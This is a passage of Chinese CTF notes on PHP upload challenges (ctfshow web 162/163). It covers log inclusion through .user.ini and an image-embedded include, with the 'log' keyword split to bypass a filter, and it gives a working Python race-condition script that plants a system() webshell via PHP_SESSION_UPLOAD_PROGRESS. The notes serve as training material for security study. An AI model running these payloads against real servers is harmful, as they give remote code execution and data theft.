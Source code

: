 ### 日志包含（配合ini）
先传.user.ini
然后传图片，内容为：
```<?=include"/var/log/nginx/access.log"?>```
```<?=include"/var/lo"."g/nginx/access.lo"."g"?>(过滤log关键字时)```
最后改UA头为一句话木马，刷新网页即可

> 这里为什么不能直接传auto_append_file="/var/lo"."g/nginx/access.lo"."g"呢，因为二者语法不同，include是php语法，所以可以用.来连接，而ini的语法不一样不能用.连接字符串会导致报错，所以用图片马作为中介。


### session包含+条件竞争
当我们没有文件可以用来进行包含时，可以尝试利用session.upload_progress将恶意语句写入session文件，从而包含session文件。
前提：session.upload_progress.enabled = on //enabled=on表示upload_progress功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ；

```python
import requests
import threading


# ctfshow web 162 163
# 这里是先利用.user.ini包含了session文件，然后再不断的往url1的session里放入一句话木马，并不断请求url2去执行命令cat flag
session=requests.session()
sess='nanian233'
url1="https://2299d377-323d-4aa7-8bd0-80ae8bf2ff68.challenge.ctf.show/"
url2="https://2299d377-323d-4aa7-8bd0-80ae8bf2ff68.challenge.ctf.show/upload/index.php"
data1={
	'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("tac ../f*");?>'
}
file={
	'file':'nanian233'
}
cookies={
	'PHPSESSID': sess
}

def write():
	while True:
		r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
	while True:
		r = session.get(url2)
		if 'flag' in r.text:
			print(r.text)
			break
			
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
	t.start()

```

